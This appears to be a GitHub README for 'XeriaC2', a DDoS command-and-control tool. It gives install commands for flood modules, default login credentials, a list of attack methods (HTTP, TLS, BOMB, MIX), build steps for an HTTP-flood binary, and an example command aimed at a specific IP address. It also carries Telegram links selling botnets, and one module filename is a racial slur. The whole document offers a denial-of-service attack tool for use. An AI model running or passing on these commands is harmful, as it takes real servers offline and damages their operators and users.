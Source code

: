 ## Setup/Install
```sh
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

CentOS:
yum install git -y
yum install golang -y
yum install perl -y
yum install python2 -y
yum install python3 -y
yum install python3-pip -y
yum install nodejs -y
yum install npm -y

Debain, Ubuntu:
sudo apt-get install git -y
sudo apt-get install golang -y
sudo apt-get install perl -y
sudo apt-get install python3 -y
sudo apt-get install python2 -y
sudo apt-get install python3-pip -y
sudo apt-get install nodejs -y
sudo apt-get install npm -y

git clone https://github.com/caa440/ddosv2.git

cd ddosv2

node auto_install_modules.js 404.js HTTP-NIGGA.js BYPASS.js holdv2.js Tlsv1.js TLSv2.js MIX.js spike.js XENN-BYPASS.js anus.js

pip3 install -r requirements.txt

python3 xeriac2.py

```

## Login 
```sh
Username : root
Password : PASA404

```
## How To Install Modules
```sh
How To Install Modules Please Are You Get Error cannot find module
- Usage : node auto_install_modules.js HTTP.js
- Example : node auto_install_modules.js example.js
Note : 
- Please Dont Input the on xeriac2.py
- you can input the cd XeriaC2
- python xeriac2.py
- choose methods
- error?
- ctrl + c
- node auto_install_modules.js example.js

```

## Methods Work On xeriac2.py
```sh
- HTTP
- TLS
- TLSV2
- TLSV3
- BOMB
- MIX

```

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/freetoolsddos

C2 or Botnet if you wanna buy : https://t.me/perkicauc2

Power Proof : https://t.me/PerkicauC2PowerProof

Chat : https://t.me/+FlxMp6qQVoNmZWZl

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
